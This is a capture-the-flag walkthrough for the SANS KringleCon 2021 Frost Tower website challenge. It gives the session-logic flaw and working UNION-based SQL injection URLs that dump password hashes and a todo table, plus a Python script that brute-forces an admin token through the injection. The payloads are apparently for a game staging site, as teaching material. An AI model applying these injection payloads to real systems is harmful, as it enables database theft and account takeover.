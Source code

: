 ## Summary
At the top right of the main courtyard, after thawing the Frost Tower door and fixing the Frostivator elevator, go to the top floor, Jack's Office. Enter the left room, called Studio, and talk with Ingreta about the Frost website and download the sourcecode. You will practice sourcecode review and web application hacking.\
[Back to Table of Contents](https://github.com/minispooner/SANS_KringleCon_2021_Walkthrough/blob/main/README.md)

## Steps
1. Review the sourcecode for flaws. If you aren't able to find anything, you can go complete the Python coding challenges (where you move the little elf to collect candies) and after level 8, the elf there will give you a few hints about where the Frost Tower Website is vulnerable.
<details>
  <summary>The Elf's Hint</summary>
  He tells you to review a couple of lib docs - the npm express-session package (https://www.npmjs.com/package/express-session) and the mysqljs/mysql package (https://github.com/mysqljs/mysql).
</details>

2. Exploit the first vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the express-session package. Take a look at how it uses this lib to find developer flaws in session management.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js file assigns the unauthenticated user a session when a certain unauthenticated call is made with certain logic. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/postcontact" method assigns the user a session when certain logic is followed. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Answer</summary>
  Submit the /contact form using some email address. Submit the form again, using the same email address. You now have a session and can navigate to /dashboard to confirm.
</details>

3. Exploit the second vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the mysql package. Take a look at the official docs to identify potential mistake points where developers may accidentally insecurely implement classes/calls.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js "/detail/:id" method is a good place to look.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/detail/:id" method calls the insecure raw() method on the mysql connection to execute a raw query. Try to manipulate the user input to exploit this vulnerability.
</details>

<details>
  <summary>Answer</summary>
  While "/detail/1,1 or 1=1" will successfully return all uniquecontact details, a UNION-based SQL injection will give you all database user password hashes too! You can build this exploit by reviewing the database tables sourcecode.
  https://staging.jackfrosttower.com/detail/1,2,4%20union%20select%20*%20from%20users--
</details>

4. Exploit the second vulnerability...again...
<details>
  <summary>What's this about?...</summary>
  After getting SQL injection and the password hashes, can we login as someone? (I didn't crack any hashes...)
</details>

<details>
  <summary>Hint 1</summary>
  There are some super-protected pages that need special perms on top of a session. Can you figure out how to get in?
</details>

<details>
  <summary>Hint 2</summary>
  Take a look at how the "token" value is used and think about how it can be obtained and used.
</details>

<details>
  <summary>Answer</summary>
  I bruteforced the Super Admin token (mxCamxRUVgBWr3l7uFR8uUbuQcAa496e) and reset their password and logged in as them. Code below. (CHANGE THE SESSION ID IN THE CODE!)

```
import requests, string
ALL = list(string.ascii_letters)
ALL.extend(string.digits)
print(ALL)
FINAL = ''

def test():
    global FINAL
    for injection in ALL:
        url = 'https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20users%20where%20id=1%20and%20token%20like%20%22HERE%25%22--'
        url = url.replace('HERE',FINAL + injection)

        r = requests.get(
            url,
            cookies={"connect.sid": "YOUR SESSION ID"}
        )
        # print(r.status_code)
        # print(r.text)
        if r.status_code!=200:
            FINAL = FINAL + injection
            print("FINAL: ", FINAL)
            if len(FINAL)==32:
                exit('DONE')

for i in range(0,32):
    test()

print('DONE')
```

</details>

<details>
  <summary>Alternative (better) Answer</summary>
  Use comma-less JOINs for arbitrary data SELECTs.
  https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20((select%201)A%20join%20(select%20token%20from%20users%20where%20id%20=1)B%20join%20(select%20%22%22)C%20join%20(select%20%22%22)D%20join%20(select%20%22%22)E%20join%20(select%20%22%22)F%20join%20(select%20%22%22)G)--
</details>

5. Exploit the second vulnerability...for the final answer!
<details>
  <summary>Hint 1</summary>
  Where could the todo list be? Enumerate the DB tables using the JOINs above.
</details>

<details>
  <summary>Hint 2</summary>
  The DB likely blocks FUNCTION calls and the INFORMATION_SCHEMA.COLUMNS table, so you have to bruteforce/enum the col names manually - or with BurpSuite Intruder!
</details>

<details>
  <summary>Answer</summary>
  Run this through BurpSuite Intruder
 
  /detail/1,1%20union%20select%20*%20from%20((select%201)A%20join%20(%20SELECT%20§1§%20FROM%20todo)B%20join%20(select%20%22%22)C%20join%20(select%20%22%22)D%20join%20(select%20%22%22)E%20join%20(select%20%22%22)F%20join%20(select%20%22%22)G)--
  
  And set the inject point to the "1" (already done in example above) in the "select 1 from todo" query. I used this wordlist:
  
  https://github.com/drtychai/wordlists/blob/master/sqlmap/common-columns.txt 
  
  Then I filtered results by length and found the two largest were id and note.
  Answer:
  
  https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20((select%201)A%20join%20(%20SELECT%20note%20FROM%20todo)B%20join%20(select%20%22%22)C%20join%20(select%20%22%22)D%20join%20(select%20%22%22)E%20join%20(select%20%22%22)F%20join%20(select%20%22%22)G)--
</details>
